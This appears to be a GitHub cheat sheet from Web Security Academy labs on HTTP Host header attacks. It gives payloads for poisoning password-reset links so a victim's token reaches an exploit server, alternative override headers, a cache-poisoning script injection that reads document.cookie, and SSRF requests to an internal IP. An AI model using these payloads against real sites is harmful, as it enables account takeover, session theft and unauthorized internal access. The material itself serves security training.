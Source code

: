 
# HTTP Host header attacks
## Approach
The best place, where you can set this type of attacks is in **Forgot password?** functionality.  
![image](https://user-images.githubusercontent.com/58632878/225040952-cf621879-c6e9-4b9d-aac8-b1b3c3d95bf4.png)  
  
Set your exploit server in Host and change username to victim's one:  
![image](https://user-images.githubusercontent.com/58632878/225041836-87faa37d-39f9-48c5-910f-aed9be30f63a.png)  

Go to exploit server logs and find victim's forgot-password-token:  
![image](https://user-images.githubusercontent.com/58632878/225043063-d2db3e7a-f23d-40cb-955e-76e282be65f1.png)  
  
These Headers can also be used, when **Host** does not work:
```
X-Forwarded-Host: exploit-server.com
X-Host: exploit-server.com
X-Forwarded-Server: exploit-server.com
```


## Labs
### 1. To send malicious email put your server in Host
```
Host: exploit-server.com
```
>https://hackerone.com/reports/698416

### 2. Admin panel from localhost only 
```
GET /admin HTTP/1.1
Host: localhost
```

### 3. Double Host / Cache poisoning
```
Host: 0adf00cc033d5f09c05b077d000200eb.web-security-academy.net
Host: "></script><script>alert(document.cookie)</script>
```
>https://hackerone.com/reports/123513

### 4. SSRF
```
GET /admin HTTP/1.1
Host: 192.168.0.170
```

### 5. SSRF
```
GET https://0a44007e03fb1d0cc0068900005000d1.web-security-academy.net HTTP/1.1
Host: 192.168.0.170
```
